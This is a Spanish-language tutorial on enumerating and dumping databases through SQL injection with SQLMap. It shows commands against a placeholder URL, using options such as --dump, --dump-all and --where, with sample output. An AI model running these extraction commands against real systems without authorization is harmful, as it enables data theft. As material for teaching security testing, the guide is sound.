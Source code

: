 # Enumeración de Bases de Datos con SQLMap

La enumeración es una de las partes centrales de un ataque de inyección SQL (SQLi). Después de detectar y confirmar la vulnerabilidad en el objetivo, el siguiente paso es extraer información de la base de datos.

## **Exfiltración de Datos con SQLMap**

SQLMap utiliza un conjunto de consultas predefinidas para cada gestor de bases de datos (DBMS) soportado. Estas consultas permiten obtener información como:

- **Versión del servidor** (`--banner`)
- **Usuario actual** (`--current-user`)
- **Base de datos activa** (`--current-db`)
- **Host del servidor** (`--hostname`)
- **Lista de usuarios** (`--users`)
- **Lista de bases de datos** (`--dbs`)
- **Lista de tablas en una base de datos** (`--tables`)
- **Lista de columnas en una tabla** (`--columns`)
- **Contenido de una tabla específica** (`--dump`)

---

## **Enumeración Básica de la Base de Datos**

Después de detectar la vulnerabilidad, se puede obtener información básica con el siguiente comando:

```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

### **Ejemplo de salida:**

```
back-end DBMS: MySQL
banner: '5.1.41-3~bpo50+1'
current user: 'root@%'
current database: 'testdb'
current user is DBA: True
```

Esto confirma la versión del servidor, el usuario actual y si tiene permisos de administrador (`DBA`).

---

## **Enumeración de Tablas**

Para obtener una lista de todas las tablas en la base de datos `testdb`:

```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

### **Ejemplo de salida:**

```
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

---

## **Dump de Contenido de una Tabla**

Después de encontrar la tabla de interés (`users`), podemos volcar su contenido:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb -T users
```

### **Ejemplo de salida:**

```
Database: testdb
Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
```

📌 **Nota:** SQLMap guarda automáticamente los resultados en un archivo CSV en `~/.local/share/sqlmap/output/`.

---

## **Dump de Columnas Específicas**

Si solo queremos extraer ciertas columnas (`name` y `surname`):

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb -T users -C name,surname
```

### **Salida esperada:**

```
Database: testdb
Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

---

## **Filtrar por Rangos de Filas**

Si la tabla es muy grande, podemos extraer solo ciertas filas con `--start` y `--stop`:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb -T users --start=2 --stop=3
```

### **Salida esperada:**

```
Database: testdb
Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

---

## **Filtrar por Condiciones WHERE**

Podemos filtrar los resultados usando una condición `WHERE`. Por ejemplo, para extraer usuarios cuyos nombres comiencen con "f":

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb -T users --where="name LIKE 'f%'"
```

### **Salida esperada:**

```
Database: testdb
Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

---

## **Enumeración Completa de la Base de Datos**

Para obtener el contenido de **todas** las tablas dentro de la base de datos `testdb`:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb
```

Para extraer **todas las bases de datos** y su contenido (excepto bases de datos del sistema):

```bash
sqlmap -u "http://www.example.com/?id=1" --dump-all --exclude-sysdbs
```

---

## **Formato de Salida Personalizado**

Por defecto, SQLMap guarda los datos en CSV, pero se pueden exportar en otros formatos con `--dump-format`:

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb -T users --dump-format=sqlite
```

📌 **Formatos soportados:** `csv`, `html`, `sqlite`.

---

## **Conclusión**

Esta guía te permite utilizar SQLMap para extraer datos de bases de datos vulnerables de forma eficiente. Ajustando las opciones, puedes optimizar la extracción y análisis de datos en pruebas de seguridad. 🚀
